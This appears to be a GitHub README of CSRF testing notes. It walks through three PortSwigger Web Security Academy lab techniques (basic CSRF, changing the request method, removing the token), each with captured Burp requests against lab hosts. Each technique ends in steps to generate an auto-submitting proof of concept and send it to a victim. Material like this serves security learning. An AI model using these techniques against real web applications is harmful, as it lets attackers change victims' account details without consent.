  ## CSRF(Cross-site request forgery)
   Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application
   in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), 
   an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, 
   a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. 
   If the victim is an administrative account, CSRF can compromise the entire web application.

   ## Resource 
   
     https://corneacristian.medium.com/top-25-csrf-bug-bounty-reports-ffb0b61afa55


  ## How to test for CSRF
   A good methodology to identify CSRF vulnerabilities would be to discover all the endpoints through which the application initiates and executes actions,   and apply tests for all three types of Cross-Site Request Forgery described above.



  ## CSRF type
  
  
  
  ## 1. Basic
    
  Find CSRF
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
    
 ## BURP request 
 
    POST /my-account/change-email HTTP/1.1
    Host: 0a98002a031dc494c0bb490d002b0039.web-security-academy.net
    Cookie: session=Xi4wUL9QBc5WIvwtzoN7dwzzJdwtDVi5
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 22
    Origin: https://0a98002a031dc494c0bb490d002b0039.web-security-academy.net
    Referer: https://0a98002a031dc494c0bb490d002b0039.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com
 
 Change Email Id 
  
 Sand the Request in Repeter
 
 Sand the Request in Engagement tools
 
 Sand the request Engagement sub-tabe Generate CSRF POC 
 
 Open the Option tabe and select the INCLUDE auto-submit Script
 
 and click "Regenerate"
 
 copy html and sand the victom
 
 victam click the link 
 
 boom hack the id 
 
  ## 2. CSRF change request method
 
  Find CSRF
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
    
    POST /my-account/change-email HTTP/1.1
    Host: 0ad2000603304f22c01c4dd500860024.web-security-academy.net
    Cookie: session=ogvSLeaV2cZGd1WUAWSmqSVPMvOm4Q4C
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
    Origin: https://0ad2000603304f22c01c4dd500860024.web-security-academy.net
    Referer: https://0ad2000603304f22c01c4dd500860024.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com&csrf=XYZJKeGiUSE0mD4LKrHufpsusLxqtIQa
    
 And Change request method 
    
 Change Email Id 
  
 Sand the Request in Repeter
 
 Sand the Request in Engagement tools
 
 Sand the request Engagement sub-tabe Generate CSRF POC 
 
 Open the Option tabe and select the INCLUDE auto-submit Script
 
 and click "Regenerate"
 
 copy html and sand the victom
 
 victam click the link 
 
 boom hack the id 
    
    
 ## 3. Remove CSRF Token 
 
  Find CSRF
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
    
    
    POST /my-account/change-email HTTP/1.1
    Host: 0a47009a043a07eac09a218e000300a8.web-security-academy.net
    Cookie: session=VShOTSOiOO4zVZzz8bn9QOcI7dhmtYJj
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
    Origin: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net
    Referer: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com&csrf=WETxOXISfGeVUKAPqcezagvb4x9HSaZn


 Remove CSRF Token 


    
    POST /my-account/change-email HTTP/1.1
    Host: 0a47009a043a07eac09a218e000300a8.web-security-academy.net
    Cookie: session=VShOTSOiOO4zVZzz8bn9QOcI7dhmtYJj
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
    Origin: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net
    Referer: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com

  Change Email Id 
  
 Sand the Request in Repeter
 
 Sand the Request in Engagement tools
 
 Sand the request Engagement sub-tabe Generate CSRF POC 
 
 Open the Option tabe and select the INCLUDE auto-submit Script
 
 and click "Regenerate"
 
 copy html and sand the victom
 
 victam click the link 
 
 boom hack the id 

    
    
    

